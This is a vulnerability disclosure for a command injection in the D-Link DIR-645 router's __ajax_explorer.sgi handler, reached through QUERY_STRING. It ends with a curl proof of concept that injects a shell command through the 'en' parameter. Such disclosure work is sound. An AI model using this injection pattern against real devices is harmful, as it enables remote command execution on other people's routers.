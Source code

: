 Vendor of the products:D-Link

Reported by: 　　　WangJincheng && FeiXincheng && ShaLetian from X1cT34m

Affected products:D-Link DIR-645

Vendor Homepage:  https://www.dlink.com/en/consumer

Vendor Advisory:  https://tsd.dlink.com.tw/ddgo


# summarize

`D-Link DIR-645` was discovered to contain a command injection vulnerability when operate the file `__ajax_explorer.sgi`. This vulnerability allows attackers to execute arbitrary commands via the `QUERY_STRING` parameter.

# Vulnerability description

We can see that the os will get `QUERY_STRING` in `scandir_main`, and pass it to `sub_410AD4`

![image-20220316191407126](https://github.com/fxc233/CVE/blob/main/img/1.png)

In `sub_410AD4`, it calls `sub_410434`

![image-20220316191407126](https://github.com/fxc233/CVE/blob/main/img/2.png)

In `sub_410434`, it contains a command injection.

![image-20220316191407126](https://github.com/fxc233/CVE/blob/main/img/3.png)

before the attack

![image-20220316191407126](https://github.com/fxc233/CVE/blob/main/img/3.png)

after the attack

![image-20220316191407126](https://github.com/fxc233/CVE/blob/main/img/3.png)

# poc

	curl "http://192.168.0.1/portal/__ajax_explorer.sgi?action=umnt&path=path&where=here&en=;echo%20X1cT34mpwner%20>FXC;"